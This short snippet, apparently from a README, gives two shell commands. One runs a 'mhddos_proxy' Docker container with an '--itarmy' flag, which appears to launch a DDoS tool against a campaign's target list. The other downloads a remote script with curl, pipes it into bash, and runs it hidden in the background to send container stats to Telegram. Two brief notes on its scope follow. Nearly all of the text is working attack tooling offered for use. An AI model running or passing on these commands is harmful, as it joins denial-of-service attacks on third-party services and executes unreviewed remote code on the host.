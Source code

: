 ```
docker run --rm -d --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy --itarmy
nohup bash <(curl -s https://raw.githubusercontent.com/sadviq99/docker-stats-telegram/dev/docker_stats_crawler.sh) > /dev/null 2>&1 &
```

1. Stats for container, but not server
2. Suppose only 1 container is running on host